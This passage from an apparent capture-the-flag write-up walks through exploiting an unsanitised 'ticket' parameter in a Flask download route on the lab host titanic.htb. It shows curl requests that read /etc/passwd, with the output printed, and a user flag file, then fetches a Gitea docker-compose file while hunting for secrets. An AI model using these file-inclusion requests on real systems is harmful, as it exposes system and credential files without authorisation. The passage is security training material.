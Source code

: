 Notice the @app.route statements. This part looks like it handles the form data from http://titanic.htb. Also notice the `/download` route. It handles a single GET parameter `ticket`. There are zero checks or sanitization of that parameter! This looks like a schoolbook example of a Local File Inclusion (LFI) vulnerability. Let's try it!

```
$ curl http://titanic.htb/download?ticket=/etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
[...]
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false

```

Voila! A glorious LFI. The most obvious way to exploit a LFI vulnerability is to use it to download sensitive information, such as credentials in any form. Hey! There's a user named "developer" with a home-directory in /home/developer. As it turns out this will give you the user flag:

```
$ curl http://titanic.htb/download?ticket=/home/developer/user.txt
```

### Getting a shell

Before taking off on a wild LFI adventure, let's first look at what else there is on http://dev.titanic.htb/. It appears that both MySQL and Gitea are run as docker containers. The docker compose yaml file in http://dev.titanic.htb/developer/docker-config/src/branch/main/gitea/docker-compose.yml gives a strong hint on where to look for secret information. 

```
$ curl http://dev.titanic.htb/developer/docker-config/raw/branch/main/gitea/docker-compose.yml       
version: '3'

services:
  gitea:
    image: gitea/gitea
    container_name: gitea
    ports:
      - "127.0.0.1:3000:3000"
      - "127.0.0.1:2222:22"  # Optional for SSH access
    volumes:
      - /home/developer/gitea/data:/data # Replace with your path
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always   
```
